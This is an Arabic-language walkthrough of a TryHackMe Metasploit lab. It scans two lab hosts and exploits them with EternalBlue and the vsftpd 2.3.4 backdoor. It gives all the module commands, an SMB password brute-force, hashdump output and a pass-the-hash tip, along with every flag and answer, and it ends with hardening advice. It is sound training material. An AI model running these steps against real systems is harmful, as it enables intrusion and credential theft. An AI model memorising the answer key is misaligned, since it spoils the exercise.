

# توثيق غرفة ميتاسبلويت: الفحص والاستغلال (Metasploit: Scanning and Exploitation)

---

## 1. بيانات المديول والروم (Metadata & Overview)

* **المسار التعليمي:** مسار مبتدئ اختبار الاختراق (Jr Penetration Tester)
* **المديول:** المديول الثاني عشر — ميتاسبلويت والاستغلال (12-METASPLOIT-AND-EXPLOITATION)
* **اسم الغرفة:** ميتاسبلويت: الفحص والاستغلال (Metasploit: Scanning and Exploitation)
* **المعرف البرمجي (Slug):** `metasploitscanningandexploitation`
* **الرابط المباشر:** [TryHackMe Metasploit: Scanning and Exploitation](https://tryhackme.com/room/metasploitscanningandexploitation)
* **مستوى الصعوبة:** متوسط (Medium)
* **النوع:** غرفة إرشادية وتطبيق عملي (Walkthrough & Guided Practice)
* **سيناريو التقييم:** استمرار تقييم اختبار الاختراق لمؤسسة **Stratford Systems** (شبكة مزدوجة: ويندوز ولينكس)
* **عدد المهام:** 7 مهام
* **عدد الأسئلة:** 15 سؤالاً تم حلها والتحقق منها بنسبة 100%

---

## 2. الملخص التنفيذي (Executive Summary)

تُمثل غرفة **Metasploit: Scanning and Exploitation** الانتقال العملي من المفاهيم الأساسية إلى التطبيق الميداني الفعلي على شبكة حية؛ حيث يواصل مختبر الاختراق تقييم البنية التحتية لشركة **Stratford Systems** عبر استهداف خادمين رئيسيين: محطة عمل ويندوز (`STRATFORD-WS01`) وخادم إنتاج لينكس (`stratford-srv01`).

تغطي الغرفة دورة حياة الاستغلال المتكاملة:
1. **الفحص والاستطلاع عبر ميتاسبلويت:** استكشاف المنافذ المفتوحة عبر وحدات TCP، والتعرف على اسم NetBIOS، وفحص بصمات الويب (`webfs/1.21` على المنفذ 8000)، وتخمين بيانات اعتماد بروتوكول مشاركة الملفات SMB للمستخدم `penny` (`Spring2013`).
2. **إدارة قاعدة بيانات ميتاسبلويت (PostgreSQL):** عزل بيانات التقييم داخل مساحة عمل مخصصة (`workspace -a stratford`)، واستيراد نتائج فحص Nmap تلقائياً عبر `db_nmap`، وتعبئة أهداف الهجوم آلياً عبر `hosts -R`.
3. **التحقق الآمن من الثغرات:** فحص ثغرة **MS17-010 (EternalBlue)** دون إسقاط الخادم عبر `auxiliary/scanner/smb/smb_ms17_010` وحفظ النتيجة في جدول `vulns`.
4. **الاستغلال المزدوج:**
   - اختراق نظام الويندوز عبر ثغرة النواة `ms17_010_eternalblue` والوصول إلى أعلى صلاحية (`SYSTEM`)، وسحب الهاشات من الذاكرة (`hashdump`) واسترجاع علم `THM{EterNalPwn3d}`.
   - اختراق خادم اللينكس عبر الباب الخلفي الشهير في برمجية `vsftpd 2.3.4` (CVE-2011-2523) والحصول على قذيفة أوامر بصلاحيات `root` واستخراج علم `/root/flag.txt`.

---

## 3. مخطط سير العمل وسلسلة الهجوم المزدوجة (Architectural & Attack Chain Flow)

يوضح المخطط التالي التسلسل المنهجي للفحص والاستغلال المزدوج على شبكة Stratford Systems:



---

## 4. المتطلبات وإعداد البيئة (Prerequisites & Environment Setup)

للعمل العملي داخل بيئة Metasploit، تتطلب بيئة العمل التحقق من جاهزية قاعدة البيانات وتشغيل الطرفية:

```bash
# 1. تشغيل خدمة قاعدة البيانات PostgreSQL
sudo systemctl start postgresql

# 2. تهيئة وتأكيد حالة قاعدة بيانات ميتاسبلويت
msfdb init
msfdb status

# 3. تشغيل msfconsole في الوضع الهادئ
msfconsole -q
```

---

## 5. توصيف الهدف والسيناريو: بنية Stratford Systems

* **اسم المؤسسة المستهدفة:** مؤسسة Stratford Systems للخدمات المالية.
* **الهدف الأول (Windows Workstation):**
  - اسم NetBIOS: `STRATFORD-WS01`
  - نظام التشغيل: Windows Server 2008 R2 Standard SP1 x64
  - المنافذ المفتوحة (5 منافذ): 135 (msrpc)، 139 (netbios-ssn)، 445 (microsoft-ds)، 3389 (rdp)، 8000 (webfs/1.21).
  - بيانات الاعتماد المكتشفة: `penny` : `Spring2013`
* **الهدف الثاني (Linux Server):**
  - اسم المضيف: `stratford-srv01`
  - نظام التشغيل: Linux (Ubuntu/Debian)
  - الخدمة المستهدفة: vsftpd 2.3.4 (FTP على المنفذ 21)

---

## 6. دليل الحل التفصيلي للمهام 1 إلى 7 (Complete Walkthrough)

### المهمة 1: مقدمة (Introduction)
- تأكيد بدء تشغيل الأجهزة الافتراضية والتحقق من الاتصال الشبكي.
- **الإجابة:** `No answer needed`.

### المهمة 2: الفحص باستخدام ميتاسبلويت (Scanning with Metasploit)
1. تشغيل وحدة الفحص `auxiliary/scanner/portscan/tcp` يكشف وجود **`5`** منافذ مفتوحة.
2. تشغيل وحدة `auxiliary/scanner/netbios/nbname` يكشف أن اسم NetBIOS هو **`STRATFORD-WS01`**.
3. فحص المنفذ 8000 عبر `auxiliary/scanner/http/http_version` يكشف الخدمة: **`webfs/1.21`**.
4. تشغيل وحدة تخمين SMB `auxiliary/scanner/smb/smb_login` مع المستخدم `penny` وقاموس كلمات المرور يكشف كلمة المرور: **`Spring2013`**.

### المهمة 3: قاعدة بيانات ميتاسبلويت (The Metasploit Database)
1. للتحقق من اتصال قاعدة البيانات داخل الكونسول: **`db_status`**.
2. لإنشاء مساحة عمل معزولة جديدة باسم stratford: **`workspace -a stratford`**.
3. لتشغيل فحص Nmap وحفظ النتائج آلياً في قاعدة البيانات: **`db_nmap`**.
4. لتعيين متغير `RHOSTS` تلقائياً لكافة الأهداف المسجلة في قاعدة البيانات: **`hosts -R`**.

### المهمة 4: فحص الثغرات (Vulnerability Scanning)
1. وحدة الفحص المساعدة لاختبار قابلية الإصابة بثغرة EternalBlue هي: **`auxiliary/scanner/smb/smb_ms17_010`**.
2. الأمر المستخدم في الكونسول لعرض الثغرات المكتشفة والمخزنة في قاعدة البيانات هو: **`vulns`**.

### المهمة 5: الاستغلال الأول: EternalBlue على نظام ويندوز (Exploit 1: EternalBlue)
1. اختيار الوحدة `exploit/windows/smb/ms17_010_eternalblue` وضبط `RHOSTS` ثم تنفيذ `exploit`.
2. الحصول على جلسة Meterpreter بصلاحية `SYSTEM`.
3. البحث عن ملف العلم باستخدام `search -f flag.txt` وقراءته:
   $$\text{Flag} = \texttt{THM\{EterNalPwn3d\}}$$
4. سحب الهاشات من قاعدة SAM عبر أمر `hashdump` لاستخراج هاش NTLM للمستخدم `pirate`:
   $$\text{NTLM Hash} = \texttt{3B1DA22B1973C0BB86D4A9B6A9AE65F6}$$

### المهمة 6: الاستغلال الثاني: الباب الخلفي لـ vsftpd 2.3.4 (Exploit 2: vsftpd Backdoor)
1. الوحدة المخصصة لاستغلال الباب الخلفي هي: **`exploit/unix/ftp/vsftpd_234_backdoor`**.
2. بعد إطلاق الاستغلال والاتصال بالمنفذ 6200، ينفتح شيل أوامر بصلاحيات المستخدم: **`root`**.
3. قراءة محتويات ملف العلم في مسار `/root/flag.txt` تكشف العلم:
   $$\text{Flag} = \texttt{THM-MSFv3n0m-PAYLOAD}$$

### المهمة 7: الخاتمة (Conclusion)
- استعراض إتمام دورة الفحص وتكامل قاعدة البيانات واختراق الهدفين بنجاح.
- **الإجابة:** `No answer needed`.

---

## 7. المصفوفة التقنية لأدوات ووحدات الفحص والاستغلال (Tools Syntax Matrix)

| الأداة / الوحدة | التصنيف | الغرض العملياتي | صياغة الأمر المستخدم |
| :--- | :--- | :--- | :--- |
| `auxiliary/scanner/portscan/tcp` | فحص مساعد | استكشاف المنافذ المفتوحة | `set RHOSTS 10.10.19.23; set PORTS 1-10000; run` |
| `auxiliary/scanner/netbios/nbname` | فحص مساعد | استخراج أسماء NetBIOS | `set RHOSTS 10.10.19.23; run` |
| `auxiliary/scanner/http/http_version` | فحص مساعد | جلب بصمة خادم الويب | `set RHOSTS 10.10.19.23; set RPORT 8000; run` |
| `auxiliary/scanner/smb/smb_login` | فحص مساعد | تخمين مصادقة بروتوكول SMB | `set RHOSTS 10.10.19.23; set SMBUser penny; set PASS_FILE list.txt; run` |
| `auxiliary/scanner/smb/smb_ms17_010` | فحص ثغرات | التحقق الآمن من EternalBlue | `set RHOSTS 10.10.19.23; run` |
| `workspace -a stratford` | قاعدة بيانات | إنشاء مساحة عمل معزولة | `workspace -a stratford` |
| `db_nmap` | قاعدة بيانات | فحص Nmap مدمج بقاعدة البيانات | `db_nmap -sV -sC -O 10.10.19.23` |
| `hosts -R` | أتمتة الأهداف | تعبئة RHOSTS بجميع الأهداف | `hosts -R` |
| `exploit/windows/smb/ms17_010_eternalblue` | استغلال ثغرة | كسر نواة الويندوز واختراق SMBv1 | `set RHOSTS 10.10.19.23; set LHOST tun0; exploit` |
| `exploit/unix/ftp/vsftpd_234_backdoor` | استغلال ثغرة | استغلال الباب الخلفي لخادم FTP | `set RHOSTS 10.10.19.45; exploit` |

---

## 8. الأعماق البرمجية لثغرة EternalBlue وباب vsftpd الخلفي (Kernel Internals)

### 1. الهندسة العكسية لثغرة EternalBlue (MS17-010):
- تقع الثغرة في مشغل نواة الويندوز `srv.sys` داخل الدالة `SrvOs2FeaToNt`.
- عند معالجة قوائم السمات الموسعة (Extended Attributes) في بروتوكول SMBv1، يحدث خطأ تحويل حسابي (Truncation Bug) حيث يتم حساب الحجم كـ DWORD (32-bit) لكن يتم تقليصه إلى WORD (16-bit) عند فحص حدود الذاكرة.
- يؤدي ذلك إلى تدفق الذاكرة في تجمع الذاكرة غير المقسمة لصفحات (Non-Paged Pool) وكتابة شفرة الاستغلال فوق مصفوفة مؤشرات الدوال `SrvTransaction2DispatchTable`؛ مما يمنح المهاجم تنفيذاً برمجياً مباشراً في مستوى النواة (Ring 0) بصلاحية `SYSTEM`.

### 2. آلية عمل الباب الخلفي في vsftpd 2.3.4 (CVE-2011-2523):
- تم زرع شفرة خبيثة في الأرشيف المصدري الرسمي لبرمجية vsftpd عام 2011.
- في ملف `str.c`، عند فحص اسم المستخدم المرسل عبر أمر `USER`، إذا انتهى الاسم بالرمزين `:)` (بايت `0x3a` يليه `0x29`)، يتم استدعاء دالة `vsf_sysutil_extra()` التي تفتح مقبساً شبكياً يستمع على المنفذ **TCP 6200** وتربط به شيل `/bin/sh` بصلاحيات `root`.

---

## 9. الأمن العملياتي وبصمة الاكتشاف (OpSec & Detection Footprint)

* **خطر الشاشة الزرقاء (BSOD) في ثغرات النواة:** ثغرة EternalBlue تتلاعب بذاكرة النواة الخام؛ لذا فإن أي انقطاع في الحزم الشبكية أو عدم تطابق في إصدار النظام قد يؤدي لانهيار الخادم بالكامل. التحقق المسبق عبر `auxiliary/scanner/smb/smb_ms17_010` يحمي من هذا الخطر.
* **البصمة الشبكية للمنفذ 6200:** الباب الخلفي لـ vsftpd يفتح منفذاً جديداً يستمع على 6200؛ وفي حال وجود جدار حماية يمنع الاتصال بالمعابر غير القياسية، فإن الهجوم سيفشل ويظل المنفذ معلقاً على الهدف.
* **إعادة استخدام الهاشات (Pass-the-Hash):** الهاش المستخرج للمستخدم `pirate` (`3B1DA22B1973C0BB86D4A9B6A9AE65F6`) يمكن استخدامه مباشرة عبر `exploit/windows/smb/psexec` للدخول إلى أجهزة أخرى في الدومين تشترك في نفس بيانات الاعتماد دون الحاجة لكسر الهاش.

---

## 10. التحصين الدفاعي والمعالجة المؤسسية (Defensive Hardening)

1. **التعطيل الفوري لبروتوكول SMBv1:** تعطيل البروتوكول المتقادم عبر سياسات المجموعة (GPO) أو أمر PowerShell:
   ```powershell
   Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol
   ```
2. **تطبيق التحديث الأمني MS17-010:** تثبيت التحديثات التراكمية (KB4012212 / KB4012215) لترقيع مشغل `srv.sys`.
3. **التحقق من سلاسل التوريد البرمجية (Supply-Chain Integrity):** مطابقة بصمات التجزئة التشفيرية (SHA-256 Checksums) والتوقيعات الرقمية للبرمجيات المفتوحة المصدر قبل نشرها في بيئات الإنتاج.

---

## 11. الأخطاء الشائعة وحلولها (Common Pitfalls)

* **نسيان التحقق عبر smb_ms17_010:** القفز مباشرة إلى تشغيل `ms17_010_eternalblue` دون فحص الهدف؛ مما قد يؤدي لإسقاط الخدمة وظهور شاشة الموت الزرقاء في حال لم يكن الهدف مصاباً.
* **خلط بيانات العملاء في قاعدة البيانات:** عدم إنشاء مساحة عمل جديدة (`workspace -a`)؛ مما يؤدي لتخزين عناوين IP العملاء في مساحة العمل الافتراضية مع أجهزة المعامل السابقة.
* **فشل استغلال vsftpd بسبب الجدران النارية:** تعليق الاستغلال عند محاولة الاتصال بالمنفذ 6200 في حال كان جدار الحماية يغلق كافة المنافذ باستثناء المنافذ القياسية.

---

## 12. فهرس المهام والحلول الكامل (Comprehensive Tasks Index)

| المهمة | عنوان المهمة | السؤال | الإجابة المحققة | المنهجية المتبعة |
| :---: | :--- | :--- | :--- | :--- |
| **01** | Introduction | I have successfully started the machines. | `No answer needed` | تهيئة البيئة والاتصال |
| **02** | Scanning with Metasploit | How many open ports did the scan discover? | `5` | فحص المنافذ عبر `portscan/tcp` |
| **02** | Scanning with Metasploit | What is the NetBIOS name of the target? | `STRATFORD-WS01` | استطلاع NetBIOS عبر `nbname` |
| **02** | Scanning with Metasploit | What service is running on port 8000? | `webfs/1.21` | فحص بصمة الويب عبر `http_version` |
| **02** | Scanning with Metasploit | What is the penny user's password? | `Spring2013` | تخمين مصادقة SMB عبر `smb_login` |
| **03** | The Metasploit Database | Command to check if database is connected? | `db_status` | التحقق من PostgreSQL |
| **03** | The Metasploit Database | Command creates new workspace called stratford? | `workspace -a stratford` | عزل مساحات العمل |
| **03** | The Metasploit Database | Command runs Nmap and stores results in DB? | `db_nmap` | الفحص المدمج والتخزين الآلي |
| **03** | The Metasploit Database | Command to set RHOSTS to every host in DB? | `hosts -R` | أتمتة تعيين الأهداف |
| **04** | Vulnerability Scanning | Auxiliary module checks MS17-010? | `auxiliary/scanner/smb/smb_ms17_010` | فحص آمن غير مدمر |
| **04** | Vulnerability Scanning | Command displays vulnerabilities in database? | `vulns` | استعلام الثغرات المسجلة |
| **05** | Exploit 1: EternalBlue | Content of flag.txt on STRATFORD-WS01? | `THM{EterNalPwn3d}` | استغلال SMBv1 والبحث بالملفات |
| **05** | Exploit 1: EternalBlue | NTLM hash of pirate user? | `3B1DA22B1973C0BB86D4A9B6A9AE65F6` | سحب الهاشات من SAM عبر `hashdump` |
| **06** | Exploit 2: vsftpd Backdoor | Module exploits vsftpd 2.3.4 backdoor? | `exploit/unix/ftp/vsftpd_234_backdoor` | استغلال ثغرة سلاسل التوريد |
| **06** | Exploit 2: vsftpd Backdoor | User running as after exploitation? | `root` | التحقق من أعلى صلاحيات اللينكس |
| **06** | Exploit 2: vsftpd Backdoor | Contents of /root/flag.txt? | `THM-MSFv3n0m-PAYLOAD` | استخراج علم الخادم المخترق |
| **07** | Conclusion | Done! | `No answer needed` | إتمام متطلبات الغرفة بنجاح |

---

## 13. مراجعة المفاهيم والأسئلة الامتحانية (Knowledge Check)

1. **س: لماذا تفشل أداة Nmap التقليدية أحياناً في اكتشاف اسم NetBIOS بينما تكتشفه وحدة `nbname` في ميتاسبلويت؟**  
   *ج:* لأن وحدة `nbname` ترسل استعلامات مخصصة عبر بروتوكول UDP على المنفذ 137 تستهدف بروتوكول NetBIOS Name Service مباشرة، في حين يعتمد فحص Nmap الافتراضي على مصافحات TCP لمنافذ محددة ما لم يتم تفعيل برمجيات NSE النصية المخصصة.

2. **س: كيف تؤدي ثغرة EternalBlue إلى السيطرة المباشرة بصلاحيات `NT AUTHORITY\SYSTEM` دون الحاجة لتصعيد الصلاحيات لاحقاً؟**  
   *ج:* لأن الثغرة تقع داخل مشغل `srv.sys` الذي يعمل في الطبقة الصفرية من النواة (Kernel Ring 0)؛ وبالتالي فإن الشفرة المحقونة تنفذ مباشرة بأعلى صلاحيات النظام في الذاكرة دون المرور بصلاحيات المستخدمين المقيدة.

3. **س: ما هي ميزة استخدام `hosts -R` مقارنة بكتابة عناوين IP يدوياً في البيئات الواسعة؟**  
   *ج:* تقوم `hosts -R` بقراءة جدول الأهداف النشطة من قاعدة بيانات PostgreSQL وتمريرها دفعة واحدة إلى متغير `RHOSTS`، مما يمنع الأخطاء المطبعية ويتيح فحص شبكات تضم مئات الأجهزة بضغطة زر واحدة.

---

## 14. المراجع والتوثيق الرسمي (References)

* [نشرة مايكروسوفت الأمنية MS17-010 الخاصة بترقيع ثغرة EternalBlue](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
* [سجل قاعدة البيانات الوطنية للثغرات CVE-2011-2523 (vsftpd Backdoor)](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
* [توثيق دعم قاعدة بيانات ميتاسبلويت وإدارة مساحات العمل من Rapid7](https://docs.metasploit.com/docs/using-metasploit/intermediate/metasploit-database-support.html)
* [دليل NIST SP 800-115 لإجراء اختبارات الأمان الفنية](https://csrc.nist.gov/publications/detail/sp/800-115/final)
* [غرفة TryHackMe Metasploit: Scanning and Exploitation](https://tryhackme.com/room/metasploitscanningandexploitation)
